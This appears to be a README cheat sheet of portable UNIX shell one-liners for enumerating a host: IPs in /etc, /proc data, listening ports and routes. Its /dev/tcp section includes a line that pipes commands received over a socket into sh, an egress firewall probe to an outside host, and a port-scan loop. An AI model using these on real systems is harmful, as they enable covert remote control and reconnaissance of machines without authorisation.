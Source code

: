 # lcdbins

An **lcdbin** is a lowest-common denominator binary; a platform-agnostic oneliner that should work on almost any UNIX environment. The liners documented here should work on any UNIX environment, except where otherwise specified. Some liners may not work on environments that are missing standard utilities such as bc.

Greetz to moogz for assistance and contributions.

## Universal Oneliners

Get all IP addresses in /etc/

```shell
grep -ro '[0-9]\{1,3\}\(\.[0-9]\{1,3\}\)\{3\}' /etc/* 2>/dev/null
grep -Ero '\b((25[0-5]|2[0-4][0-9]|[01]?[0-9][0-9]?)(\.|$)){4}\b' /etc/* 2>/dev/null
```

## /proc

Get kernel version information

```shell
cat /proc/version
cat /proc/sys/kernel/version
```

Get hostname

```shell
cat /proc/sys/kernel/hostname
```

Get current uid and gid

```shell
uid=$(cat /proc/self/status | grep -i '^uid:' | awk -F '[ \t]' '{print $2}'); gid=$(cat /proc/self/status | grep -i '^gid:' | awk -F '[ \t]' '{print $2}'); echo uid $uid gid $gid
```

List information about processes

```
echo PID NAME UID GID; pids=$(ls /proc | grep '^[0-9]*$'); for pid in $pids; do name=$(cat /proc/$pid/status 2> /dev/null | grep -i '^name' | awk -F '[ \t]' '{print $2}'); uid=$(cat /proc/$pid/status 2> /dev/null | grep -i '^uid:' | awk -F '[ \t]' '{print $2}'); gid=$(cat /proc/$pid/status 2> /dev/null | grep -i '^gid:' | awk -F '[ \t]' '{print $2}'); echo $pid $name $uid $gid; done;
```

Parse listening ports on /proc/net/tcp

```shell
for i in $(grep " 0A " /proc/net/tcp | awk -F "[ :]+" '{print $4}'); do echo "obase=10; ibase=16; $i" | bc; done | sort -un
```

Parse destination and gateway from /proc/net/route

```shell
echo Interface Destination Gateway; awk "NR >= 2" /proc/net/route |while read line; do printf '%s %d.%d.%d.%d %d.%d.%d.%d\n' $(echo $line | awk -F ' ' '{print $1}') $(echo $line | awk -F ' ' '{print $2}' | sed "s/../0x& /g" | awk '{ for (i=NF; i>1; i--) printf("%s ",$i); print $1; }') $(echo $line | awk -F ' ' '{print $3}' | sed "s/../0x& /g" | awk '{ for (i=NF; i>1; i--) printf("%s ",$i); print $1; }'); done
```

## /dev/tcp (requires bash)

Connect to a port and execute the command received

```shell
exec 3<>/dev/tcp/127.0.0.1/31337; cat <&3 | sh
```

Use letmeoutofyour.net to check firewall ACLs for a port

```shell
exec 3<>/dev/tcp/letmeoutofyour.net/31337; echo -e "GET / HTTP/1.0\r\n\r\n" >&3; cat <&3 | grep w00tw00t
```

Use dyndns.org to find your public IP address

```shell
exec 3<>/dev/tcp/checkip.dyndns.org/80; echo -e "GET / HTTP/1.0\r\n\r\n" >&3; cat <&3
```

Scan TCP ports

```shell
for i in {1..9000}; do SERVER="127.0.0.1"; PORT=$i; (echo  > /dev/tcp/$SERVER/$PORT) &> /dev/null && echo "Port $PORT seems to be open"; done
```
